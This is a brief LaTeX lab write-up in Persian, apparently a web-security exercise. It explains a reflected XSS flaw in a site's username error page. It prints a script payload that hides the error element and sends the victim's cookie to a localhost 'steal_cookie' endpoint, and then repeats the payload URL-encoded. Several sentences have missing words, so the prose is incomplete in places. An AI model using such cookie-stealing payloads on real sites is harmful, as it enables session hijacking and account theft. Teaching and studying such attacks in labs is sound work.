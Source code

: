 \documentclass[]{article}
\begin{document}
\printheader

\section*{قسمت اول}
در این قسمت با نگاه کردن به کد سایت متوجه می‌شویم که در صورت وجود نداشتن کاربر دقیقا نام کاربر
در صفحه‌ی نشان داده شده به کاربر درخواست کننده نمایش داده می‌شود. این موضوع باعث می‌شود که بتوان یک
به عنوان ورودی کاربر داد. به عنوان مثال این ورودی من بود:
\begin{latin}
\begin{lstlisting}
<script>
document.getElementsByClassName('error')[0].style.visibility = 'hidden';
const xhttp = new XMLHttpRequest();
xhttp.open('GET', 'http://localhost:3000/steal_cookie?cookie=' + document.cookie.split('=')[1], true);
xhttp.send();
</script>
\end{lstlisting}
\end{latin}
در این کد در ابتدا به مرورگر می‌گوییم که تگ‌هایی که کلاس
\verb|error|
دارند را نشان نده همان طور که سوال خواسته بود. در ادامه یک
از جنس
\verb|XMLHttpRequest|
تعریف می‌کنیم که بتوان به کمک آن یک درخواست
به یک آدرس زد. همان طور که از کد مشخص است یک درخواست
\verb|GET|
به آدرس
می‌فرستیم. همچنین برای پارامتر کوکی آبجکت
\verb|document.cookie|
استفاده می‌کنیم و سپس خروجی آن که
است را با
\verb|=|
تکه تکه می‌کنیم و قسمت دوم آن که عملا مقدار کوکی
است را به عنوان پارامتر ارسال می‌کنیم.

در نهایت برای حمله این اسکریپت را باید به فرم
در آورد. این کار را به کمک
انجام دادم و نتیجه به صورت زیر در آمد:
\begin{latin}
\begin{lstlisting}
%3Cscript%3E%0Adocument.getElementsByClassName%28%27error%27%29%5B0%5D.style.visibility%20%3D%20%27hidden%27%3B%0Aconst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0Axhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%27%20%2B%20document.cookie.split%28%27%3D%27%29%5B1%5D%2C%20true%29%3B%0Axhttp.send%28%29%3B%0A%3C%2Fscript%3E
\end{lstlisting}
\end{latin}
\end{document}
